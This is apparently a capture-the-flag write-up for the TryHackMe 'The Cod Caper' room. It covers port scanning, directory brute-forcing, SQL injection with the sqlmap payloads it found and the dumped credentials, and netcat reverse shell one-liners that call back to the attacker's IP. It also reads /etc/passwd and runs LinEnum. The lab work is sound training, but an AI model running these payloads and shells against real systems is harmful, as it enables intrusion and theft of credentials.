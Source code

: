 # The Cod Caper

## Task 1: Intro
pingu story

## Task 2: Host Enumeration
`nmap -sC -sV -A 10.10.40.189`

-A: Enable OS detection, version detection, script scanning, and traceroute

-sC: equivalent to --script=default

-sV: Probe open ports to determine service/version info

**Scan Results**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-31 09:48 IST
Nmap scan report for 10.10.40.189
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.68 seconds
```
### 1. How many ports are open on the target machine?
2 (ssh, http)

### 2. What is the http-title of the web server?
Apache2 Ubuntu Default Page: It works

### 3. What version is the ssh service?
OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

### 4. What is the version of the web server?
Apache/2.4.18

## Task 3: Web enumeration
Using the [suggested wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/big.txt).

run: `gobuster dir -u 10.10.16.135 -w "path/to/wordlist.txt" -x "html,php,txt"`

It was around 10% way of searching when it got this!

### 1.  What is the name of the important file on the server?
/administrator.php

## 4. Web Exploitation
login form -> sql injection?

run `sqlmap -u http://10.10.16.135/administrator.php --forms --dump`

-u: url

--forms: gets parameters from `form` element in the page

--dump: gets data once SQLI(SQLInjection) is found


We now get this from sqlmap:
1. 3 kinds of blinds
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=gbXk' RLIKE (SELECT (CASE WHEN (1352=1352) THEN 0x6762586b ELSE 0x28 END))-- MeOd&password=

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=gbXk' AND GTID_SUBSET(CONCAT(0x71716b6b71,(SELECT (ELT(9508=9508,1))),0x716b6a7171),9508)-- BmZK&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=gbXk' AND (SELECT 6145 FROM (SELECT(SLEEP(5)))TqbZ)-- sWNA&password=
---
```
2. Database entries 

Database: users

Table: users

[1 entry]

| password | username |
| - | - |
| secretpass | pingudad |

### 1. What is the admin username?
pingudad

### 2. What is the admin password?
secretpass

### 3. How many forms of SQLI is the form vulnerable to?
3

## 5. Command Execution
link where we put commands: `http://IP/SOME_NUMBER.php`

we now run: `nc -nlvp 4242` on our machine, to listen for connections

-l: listen mode, for inbound connects

-n: numeric-only IP addresses, no DNS

-p: local port number

-v: verbose

and run this command in the administrator command box: `nc -e /bin/sh YOUR_IP 4242`

well. that didn't work. let's try: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4242 >/tmp/f`

[Source](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[Source](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional)

Quick Tip: Get you ip by typing in `ifconfig`. Since we have connected to a VPN, we have to look at `tun0`. run: `ifconfig tun0` and the `destination` is your IP address. 

If that sounds complex, go to https://tryhackme.com/access with VPN connected, and it'll show you want you need.

Quick Note: you can choose any port, 4242 is arbitary :P

### 1. How many files are in the current directory?
run `ls` in the command form (even before we get access)

3

### 2. Do I still have an account?
`cat /etc/passwd` shows `pingu:x:1002:1002::/home/pingu:/bin/bash` at the end.

yes

### 3. What is my ssh password?
Traversing through the directory we have a user named `pingu`, and in the `.ssh` folder, we have `id_rsa` and `id_rsa.pub`. This is interesting.
But, for now lets focus on getting the password. Trying to seach using `find -u pingu` yields nothing. however, going around the directory we landed into shows a `hidden` folder; inside is our password! Its owned by `www-data` though ... hmmm ....

pinguapingu

### Having fun
running `ssh pingu@IP` gives us access to the machine, using the password above. and ... well maybe i got too excited

```
pingu@ubuntu:~$ sudo su
[sudo] password for pingu: 
pingu is not in the sudoers file.  This incident will be reported.
```

lmao


## 6. LinEnum
We need to get the linenum file into pingu's machine now. how? the room mentions using `SCP` which we can do since we have ssh-ed into the machine.

[Get the linenum script](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

After copying using: `scp /path/to/LinEnum.sh pingu@IP:/tmp`, just do `chmod +x LinEnum.sh` and run.

### 1. What is the interesting path of the interesting suid file?
/opt/secret/root

